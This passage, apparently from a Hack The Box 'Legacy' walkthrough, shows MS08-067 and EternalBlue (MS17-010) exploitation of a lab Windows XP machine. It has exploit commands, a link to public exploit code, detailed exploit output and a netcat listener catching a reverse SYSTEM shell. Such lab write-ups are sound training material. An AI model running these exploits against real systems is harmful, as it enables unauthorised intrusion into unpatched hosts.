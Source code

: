 ```python3 ms08-067.py 10.129.145.24 6 445 ```
                                                                                            │
[-]Initiating connection                                                                    │
[-]connected to ncacn_np:10.129.145.24[\pipe\browser]                                       │
Exploit finish                                                                              │

```

### Eternal Blue 
CVE-2017–0143 (MS17–010). The vulnerability we’ll be exploiting is called Eternal Blue. This vulnerability exploited Microsoft’s implementation of the Server Message Block (SMB) protocol. 

{{< notice error "Exploit error " >}}
 when i try to exploit it via Metasploit. my exploit ware succeed but i couldn't get shell, i am happy to learn from you guys, let me know if any one succeed on getting metasploit shell on this machine for this vulnerability   
 {{< /notice >}}

let's start exploiting manual method 

Download the exploit code from <a href=`https://github.com/helviojunior/MS17-010.git` >Github </a> execute by following method and make sure that you have python2 and impacket module installed on your computer.

{{< notice warning "Exploit warning " >}}
This exploit code will not work on python2 without any modification, if you have installed  both python2 and python3, you can install impacket module by using ```pip2 install impacket ```
 {{< /notice >}}

``` bash
─[atom@atom-vmwarevirtualplatform]─[~/htb/machines/legacy/MS17-010]      │┌─[atom@atom-vmwarevirtualplatform]─[~]
└──_ $ls                                                                  │└──_ $nc -nlvp 4444
BUG.txt                  eternalromance_leak.py  mysmb.pyc                │listening on [any] 4444 ...
checker.py               eternalromance_poc2.py  npp_control.py           │connect to [10.10.14.102] from (UNKNOWN) [10.129.145.24] 1053
eternalblue_exploit7.py  eternalromance_poc.py   README.md                │Microsoft Windows XP [Version 5.1.2600]
eternalblue_exploit8.py  eternalsynergy_leak.py  send_and_execute.py      │(C) Copyright 1985-2001 Microsoft Corp.
eternalblue_poc.py       eternalsynergy_poc.py   shellcode                │
eternalchampion_leak.py  get-pip.py              zzz_exploit.py           │C:\WINDOWS\system32>
eternalchampion_poc2.py  infoleak_uninit.py                               │
eternalchampion_poc.py   mysmb.py                                         │
┌─[atom@atom-vmwarevirtualplatform]─[~/htb/machines/legacy/MS17-010]      │
└──_ $python send_and_execute.py 10.129.145.24  /home/atom/eternalblue.exe│
                                                                          │
Trying to connect to 10.129.145.24:445                                    │
Target OS: Windows 5.1                                                    │
Using named pipe: browser                                                 │
Groom packets                                                             │
attempt controlling next transaction on x86                               │
success controlling one transaction                                       │
modify parameter count to 0xffffffff to be able to write backward         │
leak next transaction                                                     │
CONNECTION: 0x8612cc18                                                    │
SESSION: 0xe11fcc18                                                       │
FLINK: 0x7bd48                                                            │
InData: 0x7ae28                                                           │
MID: 0xa                                                                  │
TRANS1: 0x78b50                                                           │
TRANS2: 0x7ac90                                                           │
modify transaction struct for arbitrary read/write                        │
make this SMB session to be SYSTEM                                        │
current TOKEN addr: 0xe11333c8                                            │
```